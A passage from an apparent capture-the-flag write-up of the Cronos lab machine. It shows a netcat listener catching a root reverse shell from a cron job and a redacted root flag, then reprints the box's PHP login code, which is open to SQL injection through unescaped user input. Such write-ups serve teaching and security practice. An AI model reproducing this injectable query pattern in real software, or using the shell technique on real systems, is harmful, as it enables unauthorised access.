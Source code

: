 
Next time the cron runs, I get a callback:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.13.
    Ncat: Connection from 10.10.10.13:36216.
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    

After a shell upgrade, grab the final flag:

    
    
    root@cronos:~# cat root.txt 
    1703b8a3************************
    

## Beyond Root

### Web

Now that I can look back on the box, I wanted to see what was actually
happening in the web framework as I exploited it, for both the SQLi and the
command injection.

#### SQLi

`/var/www/admin/index.php` is the page that handles the POST requests to
login.

    
    
       if($_SERVER["REQUEST_METHOD"] == "POST") {
          // username and password sent from form 
    
          $myusername = $_POST['username'];
          $mypassword = md5($_POST['password']);
          
          $sql = "SELECT id FROM users WHERE username = '".$myusername."' and password = '".$mypassword."'";
          $result = mysqli_query($db,$sql);
          $row = mysqli_fetch_array($result,MYSQLI_ASSOC);                                                                                               
          //$active = $row['active'];
          $count = mysqli_num_rows($result);
                         
          // If result matched $myusername and $mypassword, table row must be 1 row
                                         
          if($count == 1) {
             //session_register("myusername");
             $_SESSION['login_user'] = $myusername;
                                                                                                                                                         
             header("location: welcome.php");                                                                                                            
          }else {
             $error = "Your Login Name or Password is invalid";               
          }    
    